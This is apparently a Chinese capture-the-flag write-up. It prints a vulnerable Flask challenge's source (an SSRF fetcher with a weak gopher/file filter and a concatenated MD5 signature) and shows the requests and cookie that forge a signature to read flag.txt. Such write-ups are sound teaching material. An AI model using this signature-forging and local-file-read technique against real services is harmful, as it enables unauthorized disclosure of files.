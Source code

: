 ![[Pasted image 20221214153844.png]]

---
首页长这样

![[Pasted image 20221214154030.png]]

心肺停止，你python都能代码压缩的吗
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
import imp

imp.reload(sys)

app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                    result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
                if result['code'] == 500:
                    result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
            return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.request.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.request.unquote(request.cookies.get("action")) # Get action from cookie
    param = urllib.request.unquote(request.args.get("param", "")) # Get param from url query
    sign = urllib.request.unquote(request.cookies.get("sign")) # Get sign from cookie
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.request.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param): # param should not start with gopher or file
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```
格式化代码比读代码还累.jpg

这波是吃了文化的亏，`python2`的`urlopen`原来不指定协议的时候默认就是`file`协议QAQ

总体思路就是利用`getSign`拼接顺序的漏洞绕过`Task.checkSign`和`geneSign`共同构成的对可用`action`的限制

令`param='flag.txtread'`，通过`geneSign`拼接而成的`md5(secret_key + 'flag.txtreadscan')`同指定`param='flag.txt'` `action='readscan'`相同

---
**获取`Sign`**
```php
/geneSign?param=flag.txtread
```
> 61dc9e0bbd275404f5bc301cf7b2ebde

---
**获取`flag`**
```php
/De1ta?param=flag.txt
```

**`Cookie`**
```http
Cookie: action=readscan; sign=61dc9e0bbd275404f5bc301cf7b2ebde
```
> {"code": 200, "data": "flag{6bbd3cad-1afd-4883-948c-70061755f1f3}\n"}

#Web #python #绕过 #SSRF #HTTP #函数 
